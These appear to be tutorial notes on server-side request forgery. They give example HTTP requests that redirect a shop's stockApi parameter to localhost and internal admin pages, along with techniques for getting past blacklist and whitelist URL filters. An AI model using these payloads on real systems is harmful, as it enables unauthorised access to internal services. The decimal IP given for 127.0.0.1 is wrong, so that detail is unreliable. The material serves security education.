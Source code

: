 <h4>Server-Side Request Forgery (SSRF)</h4>


Server-side request forgery attack allows attacker anto to trick server-side applications into allowing access to the server modifying files. ``SSRF can be successful if the target application reads that from a url without sanitizing it.``
--- ---
**`MITIGATION`**
```
1.Mitigate with firewall
2.Whitelisting and DNS Resolution
3.Authentication on Internal Services
4.Response Handling
5.Validation of user input
```
--- ---

**`Common Attacks`**

Attacks Against the Server Itself
- Attacker induces the application to make an HTTP request back to the server that is hosting the application (via loopback)
- Involves supplying the URL with a hostname like 127.0.0.1 or localhost
- Example code -- shopping application that allows user to check stock
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D
6%26storeId%3D1
```
	- Makes request to the URL
	- Retrieves the stock status
	- Return to the user
- Modify this for an attack:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-
urlencoded
Content-Length: 118
stockApi=http://localhost/admin
```
	- Server fetches contents of the /admin url and returns to the user
	- Authenticates as the machine/server itself

Attacks Against Other Systems
- Assume there is an administrative interface at https://192.168.0.68/admin
- Attack can exploit and access this:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-
urlencoded
Content-Length: 118
stockApi=http://192.168.0.68/admin
```

Circumventing Common SSRF Defenses

--- ---

<h4>Bypassing SSRF Defenses</h4>

It is common to see applications containing SSRF behavior together with defenses aimed at preventing malicious exploitation. Often, these defenses can be circumvented.

Bypassing Blacklist-Based Input Filters
- Applications often block input containing hostnames (127.0.0.1) or URLs (/admin)

- Bypass in these ways:
	- Use an alternative IP representation of 127.0.0.1 (21307066433)
	- Register your own domain that resolves to 127.0.0.1 (spoofed.burpcollaborator.net)
	- Obfuscate block strings using URL encoding or case variation

Bypassing Whitelist-Based Input Filters
```
- Embed creds in a URL before the hostname:
https://expected-host@evil
-host
```

- Use the # character to indicate a URL fragment:
```
https://evil-
host#expected-host
```

- Leverage DNS naming hierarchy to place required input into a fully-qualified DNS name you control:
```
https://expected-host.evil
-host
```

- URL-encode characters to confuse the URL-parsing code

- Combine these various techniques together

Bypassing with Open Redirection
- Suppose the following is true:
	- User-submitted URL is strictly validated
	- Application contains an open redirection vulnerability
- Construct a URL that meets the filter but redirects to a back-end target
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://1
92.168.0.68/admin
```
